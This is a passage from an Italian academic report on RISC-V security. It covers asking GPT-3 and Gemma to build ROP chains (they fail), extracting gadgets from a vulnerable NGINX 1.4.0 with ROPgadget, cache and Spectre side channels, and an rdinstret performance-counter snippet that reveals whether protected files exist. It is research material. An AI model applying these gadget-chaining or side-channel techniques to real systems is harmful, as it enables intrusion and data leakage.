GPT3, diversamente, riesce a produrre delle ROP-chain. Ecco l'input che è stato dato.\\
``I am giving you a list of gadgets useful for the Return Oriented Programming exploitation. You have to chain these gadgets and produce function call. 
Your output must be only the letters that identifies the gadgets ordered from the first gadget you would use, to the last gadget. 
You can use one or more gadgets to achieve the task and you can reuse the gadgets."\\
Dopo aver fornito il contesto, sono stati forniti i seguenti gadget.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htb]
\minipage{0.4\textwidth}
  
\includegraphics[width=\linewidth]{images/gadget-1.png}
  \caption{Gadget A-E}
\endminipage\hfill
\minipage{0.4\textwidth}
  
\includegraphics[width=\linewidth]{images/gadget-2.png}
  \caption{Gadget I-O-U}
\endminipage
\end{figure}
\vspace{1cm}
\FloatBarrier
Le risposte fornite da GPT3 sono state le seguenti:
\begin{itemize}
    \item IOUEA
    \item IOAE
    \item IEAUO
    \item IEUOA
    \item IEAUOJ
\end{itemize}
Mentre la risposta attesa era \textit{OUAIEU}.\\
\newline
Il risultato atteso è quindi una sequenza di 6 gadget utilizzati per eseguire una chiamata  di funzione con 7 argomenti. Il LLM avrebbe quindi dovuto capire che tipo di chiamata di funzione fare, quanti gadget sarebbero stati necessari per farla e in che ordine sarebbe stato corretto concatenarli.\\
Il risultato restituito sia da GPT3 che da Gemma non è stato quindi soddisfacente, suggerendo l'impossibilità di generazione di chain, almeno su RISC-V, usando questi tool.
\\
\newline
Il limite del LLM è dato probabilmente dal fatto che non è stato passato l'intero stack del programma come input, ma solo i gadget. In questo modo si sarebbe trovato nel contesto non solo i pezzi di assembly necessari a fare il salto, ma tutte le istruzioni compilate all'interno del programma che avrebbero potuto magari fornire dei salti e delle chain migliori. Tuttavia questo approccio non è stato possibile a causa del vasto binario che sarebbe stato fornito in input (qualche megabyte) e che avrebbe superato il numero di token massimo utilizzabile da GPT3 e Gemma.
\subsection*{Compilazione ed estrazione di gadget dal binario NGINX}
\addcontentsline{toc}{subsection}{Compilazione ed estrazione di gadget dal binario NGINX}
In una delle ultime parti del progetto si è cercato di riprodurre l'attacco al binario NGINX senza passare dal LLM, seguendo quanto riportato \href{https://syssec.informatik.uni-due.de/fileadmin/fileupload/I-SYSSEC/research/RiscyROP.pdf}{nel paper di RiscyROP}. Per fare questo si è compilato il binario su RISC-V con la versione specifica, ormai deprecata a causa della \textit{CVE 2013-2028} che è la\textit{ v1.4.0}, \cite{NGINXcve}.\\
Una volta compilato, la versione di NGINX sui processori RISC-V nel cluster del Monte Cimone, apparirà come segue
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/nginx.png}
    \caption{NGINX su RISC-V}
\end{figure}
\vspace{1cm}
\FloatBarrier
Utilizzado ROPgadget con una profondità di 20, è stato possibile estrarre 10MB di gadget, essendo il binario molto complesso, disponibili \href{https://github.com/BlessedRebuS/RISCV-Attacks/blob/main/nginx-1.4.0/gadgets.txt}{a questa pagina}.
\begin{minted}[escapeinside=||,mathescape=true]{bash}
ROPgadget --rawMode=64 --rawArc=riscv --rawEndian=little --depth=20 --binary=nginx
\end{minted}
Si è poi cercato nei gadget estratti il primo gadget per iniziare la chain, ovvero il seguente gadget
\begin{minted}[escapeinside=||,mathescape=true]{bash}
; gadget 1
0xb3058: c.ldsp s4,0x28(sp) ; load s4 (for condition
0xb305a: c.ldsp ra,0x8(sp) ; in gadget 4)
0xb305c: c.addi sp,0x10
0xb305e: c.jr ra
\end{minted}
Non è stato possibile trovare il gadget specificato, questo probabilmente a causa di una differente versione della \textit{libc()} disponibile nel cluster e della differente versione del sistema operativo.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/grep.png}
    \caption{Grep sui gadget}
\end{figure}
\vspace{1cm}
\FloatBarrier
\section*{Side channel attacks}
\addcontentsline{toc}{section}{Side channel attacks}
In sicurezza informatica esistono dei tipi di attacchi che non sfruttano esplicitamente una tecnica conosciuta e diretta, come può essere il buffer overflow, per accedere ad informazioni o parti di memoria volutamente riservate, ma sfruttano movimenti laterali e raccolgono informazioni di contorno che permettono azioni generalmente malevole.\\
In questa sezione si analizzeranno gli attacchi side channel efficaci su architetture RISC-V.
\newline
\subsection*{Cache Flush and Reload}
\addcontentsline{toc}{subsection}{Cache Flush and Reload}
Nel processori RISC-V si utilizza, come su altre architetture, una serie di cache intermedie che possono essere utilizzate per fare il fetch dei dati più velocemente. Quando si fa una cosiddetta ``cache miss", ovvero quando il dato non è presenta in cache, il dato viene recuperato in modo più lento perché il dato è recuperato dalla DRAM. Dopo la mancata lettura della cache viene quindi caricato il dato in cache che sarà accessibile più velocemente nelle prossima letture.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/shared-memory.png}
    \caption{Attacco cache flush and reload}
\end{figure}
\vspace{1cm}
\FloatBarrier
L'attaccante quindi si pone nella condizione di fare un flush della cache, sovrascrivendo la memoria con molti dati arbitrari, il programma vittima ricarica i dati utili in cache e l'attaccante fa una read arbitraria e in base al tempo di accesso al dato che richiede, capisce se il dato era stato caricato in cache o meno.\\
Questo tipo di attacco è stato mitigato nei processori moderni.
\subsection*{Cache Flush and Fault}
\addcontentsline{toc}{subsection}{Cache Flush and Fault}
Una variante dell'attacco enunciato in precedenza è il ``Flush and Fault". In questa variazione l'attaccante fa sempre il flush della cache, poi salta all'indirizzo contenente la linea di cache e gestisce l'errore. Anche in questo caso, in base al tempo in cui il processore processa una fault, l'attaccante può dedurre se il dato è stato in cache oppure no.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.4\linewidth]{images/fault-reload.png}
    \caption{Attacco cache fault and reload}
\end{figure}
\vspace{1cm}
\FloatBarrier
Anche se questi attacchi sembrano innocui, sfruttando queste informazioni basate sul timing, un attaccante può dedurre quali sono le stringhe in memoria.\\
\newline
Questa tipologia di attacchi funziona generalmente a causa di ottimizzazioni che servono per migliorare le performance del fetch dei dati, grazie ad elementi come il \textit{Branch-Prediction Unit} che si occupa di ottimizzare i branch futuri, ovvero i pezzi di codice in cui il programma salta quando c'è un  ``if - else".\\
Si possono utilizzare anche dei ``performance counter" che sono variabili pensate per fornire benchmarking del processore, ma che forniscono il numero di salti effettuati, di cache miss e cache hit, frequenza di istruzioni e molto altro. Questi counter sono a volte disponibili in userspace e quindi leggibili da un attaccante e possono essere sfruttati per costruire attacchi più complessi. I performance counter che forniscono più informazioni sono però di solito ad accesso privilegiato.
\newline
Con attacchi del genere infatti l'attaccante può utilizzare metodologie a forza bruta per capire se una determinata stringa (esempio una password) è stata caricata in cache o meno ad un determinato momento dell'esecuzione del codice. Ovviamente non è la metodologia di attacco più efficace ma usando calcolatori molto potenti oppure tempi di attacco molto lunghi, si può usare un attacco side channel per sottrarre informazioni preziose ad un sistema.\\
\subsection*{Ottimizzazioni del processore: Speculative Execution}
\addcontentsline{toc}{subsection}{Ottimizzazioni del processore: Speculative Execution}
Il processore, invece di predirre i branch, può anche eseguirli direttamente. Questa caratteristica chiamata ``speculative execution" è il concetto alla base che rende le CPU moderne molto veloci, anche in codici con molti branch.\\
Due attacchi molto utilizzati che sfruttano questo tipo di prefetch delle istruzioni sono Spectre e Meltdown \cite{spectremeltdown}. Senza scendere troppo nello specifico, questi due attacchi permettono di bucare moderne CPU indipendentemente dell'architettura, basandosi sul concetto di speculative execution. Questi attacchi sono stati sfruttati per rubare dati processati a ring 0 (kernel) e che sono solitamente privati e non leggibili da programmi esterni che girano in userspace. Sono stati usati ad esempio per leggere aree di memoria contenenti password memorizzate nel browser o password manager, o stringhe definite private dal linguaggio di programmazione.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.4\linewidth]{images/spectre-meltdown.png}
    \caption{Spectre and Meltdown logo}
\end{figure}
\vspace{1cm}
\FloatBarrier
Anche su processori basati su ISA RISC-V che implementano la speculative execution questi due attacchi possono essere sfruttati per leggere dati privati, a meno di mitigazioni lato software oppure hardware. In alcune CPU è infatti presente quello che si chiama ``limited speculation" che permette una limitata speculazione per determinati tipi di istruzioni ed evita di fare eseguire il prefetching arbitrario.\\
A livello architetturale, la possibilità di fare prefetching è legata alla possibilità di fare ``indirect branching" ovvero poter fare salti direttamente a registri oltre che solo ad indirizzi \cite{indirectbranches}.
\subsection*{Spectre su processore SiFive u74-mc}
\addcontentsline{toc}{subsection}{Spectre su processore SiFive u74-mc}
Prendendo come esempio il processore presente sul cluster del Monte Cimone, di tipologia \textit{SiFive}, è stato dichiarato dai vendor che questa tipologia di processori non è affetta da vulnerabilità Spectre e Meltdown perché non implementa la speculative execution, come descritto in \href{https://www.sifive.com/blog/sifive-statement-on-meltdown-and-spectre}{questo articolo}.\\
La speculative execution rimane però presente su schede MILK-V che montano processori come il \textit{C910} o il \textit{C920} \cite{c910c920}.\\
\newline
Si è potuto testare quindi il funzionamento sul processore SiFive usando una Proof of Concept dell'attacco Spectre \cite{securityrisc} per cercare di leggere una stringa in memoria protetta.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/strace-sifive.png}
    \caption{Attacco Spectre su Sifive}
\end{figure}
\vspace{1cm}
\FloatBarrier
Come si vede nel test eseguito, il processore non implementando la speculative execution (ma solo la limited speculation) manda il programma in \textit{SIGILL} (illegal istruction), ovvero segnala al kernel che l'istruzione richiesta non è implementata e fa terminare preventivamente l'esecuzione.\\
In generale, più un processore è ottimizzato, più è vulnerabile ad attacchi di tipo side-channel, quindi è importante mantenere il giusto grado di performance, ma si deve porre l'attenzione anche sulla sicurezza. In caso un processore implementi questo tipo di speculazione, in base al sistema operativo sono presenti delle mitigazioni software che indeboliscono in parte questi attacchi.
\subsection*{Attacchi basati su Performance Counter}
\addcontentsline{toc}{subsection}{Attacchi basati su Performance Counter}
In molte implementazioni RISC-V è presente un counter che mantiene al suo interno il numero di istruzioni ``retired" durante l'esecuzione del programma. Come scritto \href{https://www.scs.stanford.edu/~zyedidia/docs/sifive/sifive-u74.pdf}{nel manuale di SiFive}, in questo caso il counter si chiama \textit{RDINSTRET (rd)} e memorizza il numero di istruzioni ritirate a partire da un determinato istante t nel passato. Questo counter è in userspace ed è accessibile a tutti. In genere, i 3 counter che mette a disposizione SiFive sono \textit{RDCYCLE}, \textit{RDTIME} e \textit{RDINSTRET}.\\
\newline
Seguento \href{https://github.com/cispa/Security-RISC/blob/main/rlibsc.h}{questa PoC}, l'attaccante si può fornire quindi del seguente pezzo di codice per stampare arbitrariamente il numero di istruzioni ad un istante T di esecuzione del programma.
\begin{minted}[escapeinside=||,mathescape=true]{c}
static inline size_t rdinstret() {
  size_t val;
  asm volatile("rdinstret %0" : "=r"(val));
  return val;
}
\end{minted}
Il valore del registro cambia nel tempo con il numero di istruzioni che vengono eliminate. Grazie a questo l'attaccante può capire quante sono state le istruzioni di cui viene fatto il prefetch, ma che poi vengono ritirate a causa della mancato ``branch taken".
\begin{minted}[escapeinside=||,mathescape=true]{c}
size_t before = rdinstret();
f = fopen(p, "r");
size_t after = rdinstret();
size_t delta = after - before;
\end{minted}
Utilizzando questo snippet di codice insieme ad una operazione di sistema, si può capire se l'istruzione che deve essere eseguita è stata effettivamente eseguita o meno.\\
A livello di codice, se lo snippet incontra un \textit{NULL} a ritorno di una funzione, considera l'istruzione come prefetched ed annullata, altrimenti la considera come eseguita correttamente.\\
\newline
Una Proof Of Concept che sfrutta questo performance counter è presente a \href{https://github.com/cispa/Security-RISC/tree/main/access-retired}{questo indirizzo}.\\
Lo scopo dell'attacco è raccogliere informazioni su elementi di sistema non normalmente accessibili a causa di permessi mancanti dall'utente che esegue lo script. Grazie ai performance counter il processore segnala preventivamente che l'operazione va a buon fine ed il sistema operativo interviene solamente in seguito applicando le policy di accesso DAC (Discretionary Access Control).\\
Se il file è presente nel sistema i performance counter nonostante l'utente non abbia i privilegi per accedere al file, segnalano che le istruzioni vengono ritirate. Ci sarà ``più entropia" di istruzioni ritirate quindi quando la funzione \textit{open()} restituirà NULL a causa delle policy di accesso del sistema. In questo modo l'attaccante riesce a raccogliere l'informazione che il file che sta cercando è presente nel sistema, ma non può accederci.\\
Di seguito è presentata la PoC che dimostra come l'attaccante fornendo solamente il nome del file (a cui non ha accesso) riesce a capire in base al numero di istruzioni ritirate se il file è presente o meno in una determinata cartella.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/access-retired.png}
    \caption{PoC di attacco tramite Performance Counters}
\end{figure}
\vspace{1cm}
\FloatBarrier
Per capire meglio questo tipo di attacco e come sfruttarlo, di seguito è presentato un pezzo di codice che racchiude quanto detto sopra. Sono presenti 100 istruzioni NOP che vengono tradotte nell'architettura, come detto prima, in una istruzione assembly \textit{ADDI x0, x0, 0}.\\
Se il branch \textit{if (COND)} viene preso ci saranno quindi 100 istruzioni in più rispetto a quando il branch non viene preso.
\begin{minted}[escapeinside=||,mathescape=true]{c}
size_t before = rdinstret();
if (COND){	
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
	asm volatile("nop; nop; nop; nop; nop; nop; nop; nop; nop; nop;");
  }
size_t after = rdinstret();
\end{minted}
Se \textit{COND = 0}, controintuitivamente le istruzioni di cui viene fatto il prefetch non vengono poi ritirate perché non eseguite 
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    \includegraphics[width=1\linewidth]{images/nop-false.png}
    \caption{NOP COND = 0}
\end{figure}
\vspace{1cm}
\FloatBarrier
Se \textit{COND = 1} le istruzioni NOP vengono invece eseguite e in seguito ritirate probabilmente perché sono istruzioni non utili al fine di esecuzione del programma.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    \includegraphics[width=1\linewidth]{images/nop-true.png}
    \caption{NOP COND = 1}
\end{figure}
\vspace{1cm}
\FloatBarrier
Le due esecuzioni quindi differiscono di un valore di 100 istruzioni, ovvero le 100 NOP che in un caso vengono e ritirate e nell'altro caso no.\\
\newline
